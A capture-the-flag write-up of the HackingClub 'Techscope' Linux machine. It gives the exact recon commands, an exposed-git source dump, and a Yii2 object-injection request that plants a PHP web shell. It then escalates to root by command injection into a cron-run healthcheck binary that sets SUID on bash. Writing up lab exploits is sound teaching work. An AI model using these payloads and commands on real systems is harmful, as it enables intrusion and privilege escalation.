

[HackingClub] Techscope Writeup
| Platform: | HackingClub |
| Machine: | Techscope |
| Category: | Web Exploitation |
| OS: | Linux |
| Difficulty: | Hard |
## Recon
In the beginning, I used nmap with the following parameters. I found ports 22 and 80 open (it appears to be a PHP application running on Apache with Ubuntu Linux).
# Nmap 7.94SVN scan initiated Sat Dec 27 15:01:18 2025 as: nmap -Pn --min-rate 2000 -T5 -p- -v -sSVC -oN nmap 172.16.6.221
Warning: 172.16.6.221 giving up on port because retransmission cap hit (2).
Increasing send delay for 172.16.6.221 from 0 to 5 due to 2029 out of 5072 dropped probes since last increase.
Nmap scan report for techscope.hc (172.16.6.221)
Host is up (0.15s latency).
Not shown: 65326 closed tcp ports (reset), 207 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 86:d4:28:58:b2:01:6e:94:5f:8e:4a:64:8d:e2:c7:7f (ECDSA)
|_ 256 8b:24:ab:cb:04:74:62:f1:42:62:64:06:c0:05:34:a8 (ED25519)
80/tcp open http Apache httpd 2.4.58
|_http-favicon: Unknown favicon MD5: 52CED238C765F36F5E6950578914B5DE
|_http-title: Tech Scope - News & Innovation
| http-git:
| 172.16.6.221:80/.git/
| Git repository found!
| .gitignore matched patterns 'key'
| .git/config matched patterns 'user'
| Repository description: Unnamed repository; edit this file 'description' to name the...
| Last commit message: Initial commit
|_ Project type: Ruby application (guessed from .gitignore)
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Host: _; OS: Linux; CPE: cpe:/o:linux:linux_kernelInteresting! The nmap scan reveals a .git directory exposed on the web server. This is a significant finding that could allow us to dump the entire source code of the application.
To confirm the exposed Git repository and discover additional paths, I performed fuzzing using ffuf:
[techscope] ffuf -u 'http://techscope.hc/FUZZ' -mc all -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt -t 200 -fw 6148,20
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://techscope.hc/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 200
:: Matcher : Response status: all
:: Filter : Response words: 6148,20
________________________________________________
%2e%2e//google.com [Status: 400, Size: 304, Words: 26, Lines: 11, Duration: 158ms]
.git/config [Status: 200, Size: 148, Words: 13, Lines: 9, Duration: 8523ms]
.git/index [Status: 200, Size: 7235, Words: 45, Lines: 43, Duration: 8528ms]
.git/HEAD [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 9713ms]
.git/logs/HEAD [Status: 200, Size: 166, Words: 9, Lines: 2, Duration: 162ms]
robots.txt [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 193ms]
:: Progress: [4842/4842] :: Job [1/1] :: 206 req/sec :: Duration: [0:00:20] :: Errors: 1 ::The fuzzing confirms that various .git files are accessible (.git/config, .git/index, .git/HEAD, .git/logs/HEAD). This means we can use a tool like git-dumper to reconstruct the entire repository and analyze the source code.
Dumping the Git Repository
Using git-dumper, I was able to extract the complete source code from the exposed .git directory:
(env) [techscope] python3 ~/Documents/tools/git-dumper/git_dumper.py http://techscope.hc techscope-repo
[-] Testing http://techscope.hc/.git/HEAD [200]
[-] Testing http://techscope.hc/.git/ [403]
[-] Fetching common files
[-] Fetching http://techscope.hc/.git/hooks/commit-msg.sample [200]
[-] Fetching http://techscope.hc/.git/description [200]
[-] Fetching http://techscope.hc/.git/COMMIT_EDITMSG [200]
...
[-] Running git checkout .After analyzing the dumped files, I identified that this is a Yii2 PHP Framework application. Yii2 is a high-performance PHP framework that uses an MVC architecture. The framework structure and configuration files clearly indicate the technology stack being used.
## Exploitation
Analyzing the source code, I found an interesting controller at controllers/SiteController.php. Inside this SiteController, there's a vulnerable function called actionPaymentWebhook:
public function actionPaymentWebhook()
{
Yii::$app->response->format = Response::FORMAT_JSON;
$token = Yii::$app->request->getHeaders()->get('X-Service-Token');
if ($token !== 'sh0p_webhook_secret') {
throw new \yii\web\UnauthorizedHttpException('Invalid token');
}
$rawBody = Yii::$app->request->getRawBody();
$config = json_decode($rawBody, true);
$signature = ArrayHelper::remove($config, 'signature', null);
$handler = ArrayHelper::remove($config, 'handler');
$options = ArrayHelper::remove($config, 'options', []);
if (empty($handler) || !is_string($handler)) {
throw new \yii\base\InvalidConfigException('Error');
}
// Handler must start with 'yii\\'
if (!str_starts_with($handler, 'yii\\')) {
throw new \yii\web\BadRequestHttpException('Error');
}
// Blacklist check
$flat = json_encode($options);
$blacklist = [
'eval', 'exec', 'assert', 'passthru', 'shell_exec', 'system',
'proc_open', 'popen', 'base64_decode', 'file_put_contents',
'file_get_contents', 'chmod', 'fopen', 'copy', 'unlink'
];
foreach ($blacklist as $term) {
if (strpos($flat, $term) !== false) {
throw new \yii\web\BadRequestHttpException('blocked');
}
}
// Block magic methods
if (preg_match('/__\w+/', $flat)) {
throw new \yii\web\BadRequestHttpException('Methods not allowed');
}
// Limit __class occurrences
if (substr_count($flat, '"__class"') > 5) {
throw new \yii\web\BadRequestHttpException('Error');
}
try {
$component = Yii::createObject(array_merge(
['__class' => $handler],
$options
));
$output = method_exists($component, 'run')
? $component->run()
: null;
return ['status' => 'ok', 'note' => 'Webhook processed'];
} catch (\Throwable $e) {
Yii::warning("Webhook error: " . $e->getMessage(), __METHOD__);
return ['status' => 'fail'];
}
}Vulnerability Analysis
The actionPaymentWebhook function is vulnerable to PHP Object Injection for several reasons:
- Arbitrary Object Instantiation: It uses
Yii::createObject()to instantiate classes with user-controlled input, allowing the creation of arbitrary Yii framework objects. - Bypassable Blacklist: The blacklist only checks the JSON body for dangerous functions, but it doesn't check HTTP headers where we can inject PHP payloads that get logged.
- Exploitable Yii Components: We can leverage
yii\log\FileTargetto write arbitrary content (including PHP code) to a file accessible via web.
The key insight is that by using yii\log\Dispatcher with yii\log\FileTarget, we can configure the logging system to write to a custom PHP file. The PHP payload is injected through an HTTP header (which gets logged but isn't checked by the blacklist), and then we can access the file to execute arbitrary code.
Crafting the Exploit
I crafted the following HTTP request to exploit the Object Injection vulnerability. The PHP payload is placed in a custom Token header, which will be logged to our malicious PHP file:
POST /index.php?r=site/payment-webhook HTTP/1.1
Host: techscope.hc
Content-Type: application/json
X-Service-Token: sh0p_webhook_secret
Content-Length: 261
Token: <?php system($_GET[0]); ?>
{
"handler": "yii\\log\\Dispatcher",
"options": {
"targets": [
{
"class": "yii\\log\\FileTarget",
"logFile": "/var/www/techscope/web/test1.php",
"levels": ["info", "warning", "error", "trace"]
}
]
}
}The server responds with a success message, confirming that our malicious PHP file has been created:
{"status":"ok","note":"Webhook processed"}Now we can access our webshell and execute commands. Accessing http://techscope.hc/test1.php?0=id confirms RCE, and we can proceed to get a reverse shell:
www-data@ip-172-16-14-235:/var/www/techscope/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)## Post Exploitation
After obtaining a shell as www-data, I used pspy to monitor running processes and discovered an interesting cron job running as root:
2026/02/04 02:55:01 CMD: UID=0 PID=1941 | /usr/sbin/CRON -f -P
2026/02/04 02:55:01 CMD: UID=0 PID=1942 | /usr/bin/healthcheck
2026/02/04 02:55:01 CMD: UID=0 PID=1945 | sh -c -- STATUS=$(curl -s -o /dev/null -w "%{http_code}" http://localhost); echo "$(date) - Status: $STATUS" >> /var/log/health.logA binary called /usr/bin/healthcheck is being executed as root via cron. Let's analyze it using strings:
www-data@ip-172-16-14-235:/var/www$ strings /usr/bin/healthcheck
...
/dev/shm/check.conf
/var/log/health.log
http://localhost
STATUS=$(curl -s -o /dev/null -w "%%{http_code}" %s); echo "$(date) - Status: $STATUS" >> %s
...
execute_config_commands
...
main
...Reverse Engineering the Binary
Opening the binary in Ghidra reveals the vulnerability clearly:
The binary has two critical flaws:
- Command Injection via Config File: The binary reads from
/dev/shm/check.conf, a world-writable location. - Unsafe system() Call: The URL from the config file is passed directly into a
system()call without any sanitization.
The vulnerable code constructs a shell command like this:
snprintf(local_418, 0x400,
"STATUS=$(curl -s -o /dev/null -w \"%%{http_code}\" %s); echo \"$(date) - Status: $STATUS \" >> %s",
"http://localhost", "/var/log/health.log");
system(local_418);Exploiting the Binary
Since /dev/shm/ is writable by any user, we can create a malicious config file that injects commands. By writing http://localhost; chmod +s /bin/bash # to the config file, the semicolon terminates the curl URL and executes our command, while the # comments out the rest of the line.
www-data@ip-172-16-14-235:/usr/bin$ touch /dev/shm/test
www-data@ip-172-16-14-235:/usr/bin$ echo 'http://localhost; chmod +s /bin/bash #' > /dev/shm/check.conf
After waiting for the cron job to execute, we can verify that /bin/bash now has the SUID bit set:
www-data@ip-172-16-14-235:/usr/bin$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31 2024 /bin/bash
www-data@ip-172-16-14-235:/usr/bin$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31 2024 /bin/bashNow we can spawn a root shell using bash -p:
www-data@ip-172-16-14-235:/usr/bin$ bash -p
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)and that's it